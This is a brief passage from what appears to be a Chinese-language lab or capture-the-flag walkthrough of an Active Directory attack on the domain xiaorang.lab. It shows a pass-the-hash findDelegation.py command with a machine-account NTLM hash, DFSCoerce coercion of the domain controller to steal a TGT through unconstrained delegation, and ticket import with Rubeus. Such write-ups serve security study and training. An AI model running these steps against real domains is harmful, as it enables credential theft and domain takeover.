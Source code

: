 ```plain
proxychains findDelegation.py xiaorang.lab/'WIN19$' -hashes :6bdf6f041c914c9fd096f6a55bf63342 -dc-ip 172.22.4.7
```

[![](assets/1705540441-9d7347ab4a73c8405a35f20554c50269.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174855-768e0e12-b454-1.png)

非约束委派，这个需要我们强制域控访问这台主机，才能获取到相关信息，这里利用`DFSCoerce`强制DC访问域成员进而获取TGT。

[![](assets/1705540441-66d3edefb240b43dae3c2eff753cb318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174926-895451d2-b454-1.png)

使用`Rubeus.exe`导入票据

[![](assets/1705540441-38a1f6d7506eaa1186fa98c01c2d9ca0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174937-8f8902fa-b454-1.png)